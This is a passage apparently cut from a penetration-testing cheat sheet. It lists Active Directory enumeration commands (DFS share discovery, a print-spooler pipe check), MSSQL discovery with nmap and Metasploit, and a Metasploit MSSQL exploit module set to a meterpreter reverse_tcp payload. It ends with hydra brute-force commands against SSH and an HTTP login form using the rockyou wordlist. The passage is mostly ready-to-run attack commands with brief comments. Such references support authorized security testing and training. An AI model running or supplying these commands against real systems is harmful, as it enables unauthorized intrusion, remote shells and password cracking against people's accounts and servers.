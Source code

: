 ```bash
klist tgt

# whoami on older Windows systems
set u

# find DFS shares with ADModule
Get-ADObject -filter * -SearchBase "CN=Dfs-Configuration,CN=System,DC=offense,DC=local" | select name

# find DFS shares with ADSI
$s=[adsisearcher]'(name=*)'; $s.SearchRoot = [adsi]"LDAP://CN=Dfs-Configuration,CN=System,DC=offense,DC=local"; $s.FindAll() | % {$_.properties.name}

# check if spooler service is running on a host
powershell ls "\\dc01\pipe\spoolss"
```

## MSSQL

Try using "Browse for More" via MS SQL Server Management Studio

Enumeration / Discovery:

Nmap:

```bash
nmap -sU --script=ms-sql-info 192.168.1.108 192.168.1.156
```

Metasploit:

```bash
msf > use auxiliary/scanner/mssql/mssql_ping
```

### Bruteforce MSSQL Login

```bash
msf > use auxiliary/admin/mssql/mssql_enum
```

### Metasploit MSSQL Shell

```bash
msf > use exploit/windows/mssql/mssql_payload
msf exploit(mssql_payload) > set PAYLOAD windows/meterpreter/reverse_tcp
```

# Gaining Access

- hydra: bruteforce tool

    ```bash
    hydra -l root -P /usr/share/wordlists/rockyou.txt ssh://10.0.0.101 -t 4 -v -f
    #-l is the user we want to attack, -P password file list, -t threads, -v verbose
    #it's better to intercept the login page with burp, check to see the correct username&password syntax and copy the exact failed message
    -#f   exit when a login/pass pair is found
    hydra -l hasamba -P ~/Desktop/test_passwords.txt 10.0.0.210 -s 8085 http-post-form "/login/:username=^USER^&password=^PASS^:F=Authentication failed" -VVV -t 6 -
    hydra OPT #will show us optional moduls for http and such
    hydra -U MODULE_NAME #will show module examples

